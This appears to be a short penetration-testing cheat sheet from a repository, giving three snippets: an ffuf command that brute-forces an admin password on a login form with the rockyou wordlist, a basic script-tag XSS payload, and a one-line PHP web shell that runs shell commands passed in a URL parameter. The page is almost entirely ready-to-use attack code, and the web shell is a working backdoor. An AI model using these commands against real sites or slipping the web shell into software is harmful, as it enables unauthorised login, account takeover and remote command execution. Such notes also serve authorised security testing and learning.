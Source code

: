 # Cheat Sheet

[← Go back to main page](./index.md)

## [ffuf](https://github.com/ffuf/ffuf)

### Simple login page

```sh
ffuf \
  -u https://website.com/login \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -X POST -d "username=admin&password=FUZZ" \
  -w /usr/share/wordlists/rockyou.txt:FUZZ  \
  -fr "Incorrect"
```

## XSS

```html
<script>alert();</script>
```
  
## Web shell

### PHP

```php
<?php system($_GET['cmd']); ?>
```
